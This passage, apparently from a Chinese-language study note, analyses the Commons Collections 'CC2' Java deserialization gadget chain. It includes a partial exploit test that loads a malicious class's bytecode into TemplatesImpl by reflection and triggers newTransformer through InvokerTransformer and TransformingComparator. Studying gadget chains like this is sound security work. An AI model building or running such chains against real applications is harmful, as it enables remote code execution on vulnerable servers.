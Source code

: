 在**siftDownUsingComparator**方法中看到了需要的**compare**方法

![](./images/image-206.png)

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.junit.Test;

import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2TEST {
    @Test
    public void test() throws Exception {

        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field name_field = aClass.getDeclaredField("_name");
        name_field.setAccessible(true);
        name_field.set(templates,"name"); // 设置_name变量不为空  _class无需设置，需要进入defineTransletClasses

        //下面读取恶意类的字节码
        Field bytecodes_field = aClass.getDeclaredField("_bytecodes");
        bytecodes_field.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\CC1\\test\\target\\test-classes\\evil.class"));
        byte[][] bytes1 ={bytes};  //需要将字节码转为二维数组，符合形参
        bytecodes_field.set(templates,bytes1);

        
        
        //反射调用newTransformer
        InvokerTransformer transformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator comparator = new TransformingComparator(transformer);

```